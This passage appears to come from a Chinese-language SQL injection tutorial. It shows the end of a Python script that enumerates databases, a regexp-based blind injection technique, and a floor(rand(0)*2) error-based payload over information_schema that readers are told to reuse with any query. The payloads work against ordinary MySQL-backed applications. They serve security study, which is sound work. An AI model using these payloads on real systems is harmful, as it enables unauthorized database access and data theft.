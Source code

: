 ```python
	print "databases is "+result
	#return result
if __name__=='__main__':
	get_databases()

```

3. regexp正则注入

```sql
select user() regexp '^[a-z]';
```

Explain：正则表达式的用法，user()结果为root，regexp为匹配root的正则表达式。第二位可以用select user() regexp '^ro'来进行。

ps:^这个符号在正则中表示从头开始匹配，其实和substr(1,1)类似

![img](https://github.com/Anthem9/everyday/raw/master/image/v2-16fae57b3bfaf9ad87e3ffdc43ee44d8_hd.jpg)

当正确的时候显示结果为1，不正确的时候显示结果为0。

利用这个特点我们可以增加一个判断来使我们了解返回值是否为真。

```sql
select * from users where d=1 and 1= (user() regexp'^ri');
```

如果返会1则1=1查询执行，如果返回0则1=0查询不执行。

## 0X05基于报错的SQL盲注------构造payload让信息通过错误提示回显出来

1. ​

```sql
Select 1, count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a
from information_schema.columns group by a;
```

![img](https://github.com/Anthem9/everyday/raw/master/image/v2-ab1183d51fc5042d24c3d33b58c9389d_hd.jpg)

不一定要掌握原理，但是可以套用公式，只需把select user()换成你想执行的语句即可，但是必须返回值是一个字符串。
